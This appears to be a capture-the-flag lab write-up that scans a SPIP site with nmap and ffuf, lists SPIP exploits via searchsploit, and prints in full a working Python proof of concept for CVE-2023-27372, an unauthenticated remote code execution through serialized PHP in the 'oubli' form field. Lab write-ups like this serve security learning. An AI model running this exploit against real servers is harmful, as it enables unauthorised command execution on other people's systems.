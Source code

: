 # 10.201.20.3

nmap -Pn -sV -sC -oN nmap.txt --open 10.201.20.3

┌──(root㉿docker-desktop)-[/]
└─# nmap -Pn -sV -sC -oN nmap.txt --open 10.201.20.3
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-21 15:03 UTC
Nmap scan report for 10.201.20.3
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 7c:7e:2e:2c:f7:c0:c2:65:04:f4:3f:f4:f8:42:af:07 (RSA)
| 256 4b:6e:8e:ff:63:f4:bc:6b:8a:ec:65:97:0f:33:55:40 (ECDSA)
|\_ 256 a7:a3:b7:2f:64:4e:c9:38:10:44:69:58:e1:e8:85:aa (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|\_http-title: Publisher's Pulse: SPIP Insights & Tips
|\_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

ffuf -u http://10.201.20.3 -H "Host:FUZZ.10.201.20.3" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178 -t 50 -mc 200,302

┌──(root㉿docker-desktop)-[/]
└─# ffuf -u http://10.201.20.3 -H "Host:FUZZ.10.201.20.3" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev

---

:: Method : GET
:: URL : http://10.201.20.3
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
:: Header : Host: FUZZ.10.201.20.3
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 178

---

22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
| 256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|\_ 256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|\_http-server-header: Apache/2.4.41 (Ubuntu)
|\_http-title: Publisher's Pulse: SPIP Insights & Tips
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![](https://velog.velcdn.com/images/agnusdei1207/post/c9aee363-a145-4492-a058-9d1eabd973c6/image.png)

ffuf -u "http://10.201.20.3/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -mc all -fs 0 -fc 404
┌──(root㉿docker-desktop)-[/]
└─# ffuf -u "http://10.201.20.3/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev

---

:: Method : GET
:: URL : http://10.201.20.3/FUZZ
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500

---

images [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 334ms]
server-status [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 419ms]
spip [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 330ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

![](https://velog.velcdn.com/images/agnusdei1207/post/1857c055-20e8-41ff-a8fa-0947585311cb/image.png)

images, server-status, spip

![](https://velog.velcdn.com/images/agnusdei1207/post/4b46f70a-95d5-4c12-8b5a-47b174ffecf3/image.png)

![](https://velog.velcdn.com/images/agnusdei1207/post/af9a94e6-090f-4696-9601-444fa18824f8/image.png)
http://10.201.20.3/spip/spip.php?page=login&url=spip.php%3Fpage%3Dplan&lang=fr

![](https://velog.velcdn.com/images/agnusdei1207/post/c85edd3d-63d7-4a14-8bc1-cc659a4e2aea/image.png)

- 4.2.0 unauthenticated vulnerable

https://github.com/advisories/GHSA-7w4r-xxr6-xrcj
https://github.com/PaulSec/SPIPScan?source=post_page-----a256af21d7bd---------------------------------------

> apt install exploitdb
> searchsploiot -u
> searchsploit spip

# 10.201.20.3

┌──(root㉿docker-desktop)-[/]
└─# searchsploit spip

---

Exploit Title | Path

---

SPIP - 'connect' PHP Injection (Metasploit) | php/remote/27941.rb
SPIP 1.8.2 - 'Spip_RSS.php' Remote Command Execution | php/webapps/27172.txt
SPIP 1.8.2g - Remote Command Execution | php/webapps/1482.php
SPIP 1.8.3 - 'Spip_login.php' Remote File Inclusion | php/webapps/27589.txt
SPIP 1.8/1.9 - 'index.php3' Cross-Site Scripting | php/webapps/27158.txt
SPIP 1.8/1.9 - Multiple SQL Injections | php/webapps/27157.txt
SPIP 2.1 - 'var_login' Cross-Site Scripting | php/webapps/34388.txt
SPIP 2.x - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/37397.html
SPIP 3.1.1/3.1.2 - File Enumeration / Path Traversal | php/webapps/40596.txt
SPIP 3.1.2 - Cross-Site Request Forgery | php/webapps/40597.txt
SPIP 3.1.2 Template Compiler/Composer - PHP Code Execution | php/webapps/40595.txt
SPIP < 2.0.9 - Arbitrary Copy All Passwords to '.XML' File | php/webapps/9448.py
SPIP CMS < 2.0.23/ 2.1.22/3.0.9 - Privilege Escalation | php/webapps/33425.py
spip v4.1.10 - Spoofing Admin account | php/webapps/51557.txt
SPIP v4.2.0 - Remote Code Execution (Unauthenticated) | php/webapps/51536.py

---

Shellcodes: No Results
Papers: No Results

![](https://velog.velcdn.com/images/agnusdei1207/post/35cf51f8-0267-4bba-8e49-4c8986663cfa/image.png)

SPIP v4.2.0 - Remote Code Execution (Unauthenticated) | php/webapps/51536.py

> cat /usr/share/exploitdb/exploits/php/webapps/51536.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Exploit Title: SPIP v4.2.1 - Remote Code Execution (Unauthenticated)
# Google Dork: inurl:"/spip.php?page=login"
# Date: 19/06/2023
# Exploit Author: nuts7 (https://github.com/nuts7/CVE-2023-27372)
# Vendor Homepage: https://www.spip.net/
# Software Link: https://files.spip.net/spip/archives/
# Version: < 4.2.1 (Except few fixed versions indicated in the description)
# Tested on: Ubuntu 20.04.3 LTS, SPIP 4.0.0
# CVE reference : CVE-2023-27372 (coiffeur)
# CVSS : 9.8 (Critical)
#
# Vulnerability Description:
#
# SPIP before 4.2.1 allows Remote Code Execution via form values in the public area because serialization is mishandled. Branches 3.2, 4.0, 4.1 and 4.2 are concerned. The fixed versions are 3.2.18, 4.0.10, 4.1.8, and 4.2.1.
# This PoC exploits a PHP code injection in SPIP. The vulnerability exists in the `oubli` parameter and allows an unauthenticated user to execute arbitrary commands with web user privileges.
#
# Usage: python3 CVE-2023-27372.py http://example.com

import argparse
import bs4
import html
import requests

def parseArgs():
    parser = argparse.ArgumentParser(description="Poc of CVE-2023-27372 SPIP < 4.2.1 - Remote Code Execution by nuts7")
    parser.add_argument("-u", "--url", default=None, required=True, help="SPIP application base URL")
    parser.add_argument("-c", "--command", default=None, required=True, help="Command to execute")
    parser.add_argument("-v", "--verbose", default=False, action="store_true", help="Verbose mode. (default: False)")
    return parser.parse_args()

def get_anticsrf(url):
    r = requests.get('%s/spip.php?page=spip_pass' % url, timeout=10)
    soup = bs4.BeautifulSoup(r.text, 'html.parser')
    csrf_input = soup.find('input', {'name': 'formulaire_action_args'})
    if csrf_input:
        csrf_value = csrf_input['value']
        if options.verbose:
            print("[+] Anti-CSRF token found : %s" % csrf_value)
        return csrf_value
    else:
        print("[-] Unable to find Anti-CSRF token")
        return -1

def send_payload(url, payload):
    data = {
        "page": "spip_pass",
        "formulaire_action": "oubli",
        "formulaire_action_args": csrf,
        "oubli": payload
    }
    r = requests.post('%s/spip.php?page=spip_pass' % url, data=data)
    if options.verbose:
        print("[+] Execute this payload : %s" % payload)
    return 0

if __name__ == '__main__':
    options = parseArgs()

    requests.packages.urllib3.disable_warnings()
    requests.packages.urllib3.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    try:
        requests.packages.urllib3.contrib.pyopenssl.util.ssl_.DEFAULT_CIPHERS += ':HIGH:!DH:!aNULL'
    except AttributeError:
        pass

    csrf = get_anticsrf(url=options.url)
    send_payload(url=options.url, payload="s:%s:\"<?php system('%s'); ?>\";" % (20 + len(options.command), options.command))
```
